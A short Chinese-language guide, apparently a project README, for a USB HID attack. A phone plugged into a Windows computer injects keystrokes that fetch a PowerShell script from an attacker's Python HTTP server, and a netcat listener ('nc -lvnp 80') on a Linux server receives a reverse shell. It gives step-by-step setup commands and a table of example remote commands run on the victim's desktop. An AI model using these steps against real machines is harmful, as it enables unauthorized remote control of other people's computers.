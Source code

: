 ### 指南

一台电脑,一台手机,termius连接一台linux服务器
手机负责执行hid attack攻击
linux服务器,用来接收shell(即控制window)
window,用来当靶机,手机插上去且屏幕打开就行
### 步骤
- 攻击机执行`cd /opt/shell;sudo python3 -m http.server 82 &` 用于开启python http服务器来访问ps脚本![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230914220718.png)
- 手机连接到电脑usb接口上,作为一个hid attack攻击设备
- linux监听本地端口,在命令行输入`sudo nc -lvnp 80`![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235031.png)
*监听成功标志*
- 打开手机
- 单击设备上的preview->点击右上角三角符号开始攻击
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230914134508.png)

- 等待攻击完成即可执行任意命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235341.png)

*攻击成功标志*
部分命令指南

| 命令                            | 效果                                             | 举例 |
| ------------------------------- | ------------------------------------------------ | ---- |
| echo "\<content\>" > ~/\<name\> | 在对方桌面新建一个\<name\>文件,内容为\<content\> | echo "i am hacker" >~/Desktop/haha.txt     |
|                                 |                                                  |      |



